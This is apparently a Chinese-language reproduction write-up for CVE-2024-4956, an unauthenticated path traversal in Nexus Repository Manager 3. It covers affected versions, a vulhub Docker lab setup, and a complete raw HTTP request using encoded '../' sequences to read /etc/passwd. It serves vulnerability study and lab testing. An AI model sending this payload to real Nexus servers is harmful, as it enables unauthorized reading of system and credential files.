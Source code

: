 # CVE-2024-4956

> **Created by：** A-little-dragon
> 
> **Team：** TracelessSec
> 
> **漏洞描述：** Nexus Repository Manager 3  目录穿越漏洞，可读取任意文件。



# 0x01 漏洞简介 

Nexus Repository Manager，是Sonatype公司的一个产品。 它是一个强大的仓库管理器，极大地简化了内部仓库的维护和外部仓库的访问。

在 Nexus Repository 3.68.1 之前的版本中发现了一个路径遍历漏洞。此漏洞允许攻击者构造一个 URL 来下载 Nexus Repository 应用程序范围之外的系统文件，而无需任何身份验证。

# 0x02 影响范围

该漏洞影响 `Sonatype Nexus Repository Manager 3.0` 至 `3.68.0` 版本。

# 0x03 前置条件

攻击者必须具有 `Sonatype Nexus Repository 3` 实例的网络访问权限。

# 0x04 环境搭建

```bash
git clone https://github.com/vulhub/vulhub
cd vulhub/nexus/CVE-2024-4956
systemctl restart docker
docker compose up -d
```

# 0x05 漏洞复现

```
GET /%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f../etc/passwd HTTP/1.1
Host: 192.168.100.141:8081
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Content-Length: 21
Connection: close
```

![Untitled](image/Untitled.png)
